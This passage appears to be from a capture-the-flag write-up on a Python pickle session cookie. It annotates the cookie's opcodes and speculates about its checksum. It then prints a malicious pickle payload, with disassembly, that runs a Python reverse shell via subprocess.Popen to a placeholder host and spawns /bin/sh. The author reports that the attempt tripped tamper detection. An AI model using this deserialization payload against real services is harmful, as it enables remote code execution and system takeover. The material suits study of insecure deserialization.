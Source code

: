 ```html
q   \x03
<!-- reduce (pop from stack?) -->
R
<!-- store value -->
q   \x04
<!-- declare unicode of size 0x05 -->
<!--     our username -->
X   \x05\x00\x00\x00mercy
<!-- store value -->
q   \x05
<!-- declare float -->
<!--    our login date -->
<!--    how is this float stored??? -->
G   \x41\xd7\xbc\xe3\x61\x87\xe6\xf7
<!-- tuple2 -->
\x86
<!-- store value -->
q   \x06
<!-- reduce (pop from stack?) -->
R
<!-- store value -->
q   \x07
<!-- stop -->
.
<!-- magic number of some sort or hash? -->
<!--     changes every time we re-login -->
<!--     4-byte hash, perhaps CRC32? -->
\xfc\xd5\xf6\xbf
```

## Attempts at Rottening the Pickle

### Attempt 1 - Replacing `session_data` with malicious pickle

Unfortunately, as soon as I tried to do that, the system responded with a tamper detection alert.

Payload:

```python
'((X\x06\x00\x00\x00pythonX\x02\x00\x00\x00-cX\x8f\x00\x00\x00import sys,socket,os,pty;s=socket.socket();s.connect(("IP", PORT));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")lisubprocess\nPopen\n.'
```

Disassembled payload:

```shell
    0: (    MARK
    1: (        MARK
    2: X            BINUNICODE 'python'
   13: X            BINUNICODE '-c'
   20: X            BINUNICODE 'import sys,socket,os,pty;s=socket.socket();s.connect(("IP", PORT));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
  168: l            LIST       (MARK at 1)
  169: i        INST       'subprocess Popen' (MARK at 0)
  187: .    STOP
```
